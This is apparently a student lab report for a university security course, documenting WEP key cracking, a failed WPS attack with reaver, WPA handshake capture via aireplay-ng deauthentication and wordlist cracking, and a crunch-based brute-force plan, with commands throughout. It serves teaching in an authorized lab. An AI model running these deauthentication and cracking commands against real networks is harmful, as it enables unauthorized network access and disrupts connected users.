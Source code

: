 <div class='titlePage'>

# CSE 4820 Lab 2
#### WEP/WPS/WPA Vulnerabilities
##### Grant Butler, Jerrel Gordon
</div>
<div class="center">

##### Table of Contents
</div>

[TOC]

<div class="pageBreak"></div>

#### Task 1: WEP Hacking
##### a: Find AP with WEP

FITSec-Target-2 has WEP

@import "assets/network_types.png"

##### b: Capturing traffic/cracking WEP

Using this command to capture a cap file:

```bash
sudo airodump-ng -c 9 --bssid 00:0F:66:89:B5:ED -w wep-attack wlan0mon
```

We should have been able to crack it with this:
```bash
sudo aircrack-ng -b 00:0F:66:89:B5:ED wep-attack-01.cap
```

But, unfortunately the WEP station stopped working while we were in lab.

<div class="pageBreak"></div>

Instead, Kourtnee supplied the class with a pcap file after class, so the exploit was done with the following commands:
<div class="center" style="max-width:50%; height:auto">

![](assets/generating_hashes.png)
</div>
Using `airolib-ng` to make a database of hashes with the ESSID and wordlist given, the following command was used to crack WEP:

```bash
sudo aircrack-ng -r wep-db wep.pcap
```

Which returned the key for that specific network:
`KEY FOUND! [ DE:FE:4D:53:00 ]`

<div class="center" style="max-width:75%">

![](assets/wep_cracked.png)
</div>


<sub>*output of aircrack using wordlist hashed using `airolib-ng`*</sub>

<div class="pageBreak"></div>

#### Task 2: WPS Hacking
##### a: Find AP with WPS

There was not an AP with WPS enabled as far as anyone could find.

##### b: Launch the attack

Using the command

```bash
sudo reaver -i wlan0mon -b <bssid> -vv
```

for all three of the APs, every time this error would happen:

@import "assets/wps_not_working.png"
<sub>*`reaver` returning that WPS seemed to be off for the AP*</sub>

This seemed to show that there was not a WPS enabled AP during the lab.

<div class="pageBreak"></div>

#### Task 3: WPA Crack
##### a. Finding WPA AP

Using `airodump-ng`, the AP FITSec-Target-1 was found to have WPA encryption.

@import "assets/network_types.png"

##### b. Capturing WPA Handshake

After identifying the AP with WPA, we used `aireplay-ng` to deauth a router with the following command:

```bash
aireplay-ng -0 100 -a <AP_bssid> -c <client_bssid> wlan0mon
```

While doing that, a `.cap` file was being captured with the command:

```bash
sudo airodump-ng -c 9 --bssid <AP_bssid> -w wpa-data wlan0mon
```

The notes section of the `airodump-ng` output showed `EAPOL` in one of the frames being captured, meaning that the WPA handshake had been captured.

##### c. Cracking WPA

Using the file `wpa-data.cap` and the wordlist provided, the ESSID FITSec-Target-1 was cracked with the command:

```bash
sudo aircrack-ng -w animals.txt -b <bssid> wpa-data.cap
```

@import "assets/wpa2_cracked.png"

The passphrase of that AP happened to be `Jellyfish`!

<div class="pageBreak"></div>

#### Task 4: WPA Brute Force

Unfortunately, there was not enough time to complete this part of the lab today. If there was, an approach similar to this one with `crunch` could be used to brute force all possible 8 digit numeric password possible:

```bash
crunch 8 8 0123456789 | aircrack-ng -w - -b <bssid> wpa.cap
```

This is assuming that the `cap` has the WPA handshake in it, which could happen easily with a de-auth so that the AP tried to reauthenticate a client device.
